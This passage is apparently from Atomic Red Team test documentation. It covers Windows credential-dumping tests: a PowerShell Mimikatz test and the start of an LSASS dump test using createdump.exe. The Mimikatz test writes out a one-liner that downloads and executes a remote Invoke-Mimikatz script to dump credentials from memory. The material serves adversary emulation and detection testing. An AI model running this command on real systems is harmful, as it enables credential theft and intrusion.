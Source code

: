 

<br/>
<br/>

## Atomic Test #10 - Powershell Mimikatz
Dumps credentials from memory via Powershell by invoking a remote mimikatz script.
If Mimikatz runs successfully you will see several usernames and hashes output to the screen.
Common failures include seeing an \"access denied\" error which results when Anti-Virus blocks execution. 
Or, if you try to run the test without the required administrative privileges you will see this error near the bottom of the output to the screen "ERROR kuhl_m_sekurlsa_acquireLSA"

**Supported Platforms:** Windows


**auto_generated_guid:** 66fb0bc1-3c3f-47e9-a298-550ecfefacbc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_script | URL to a remote Mimikatz script that dumps credentials | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```






<br/>
<br/>

## Atomic Test #11 - Dump LSASS with createdump.exe from .Net v5
Use createdump executable from .NET to create an LSASS dump.

[Reference](https://twitter.com/bopin2020/status/1366400799199272960?s=20)

**Supported Platforms:** Windows


**auto_generated_guid:** 9d0072c8-7cca-45c4-bd14-f852cfa35cf0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
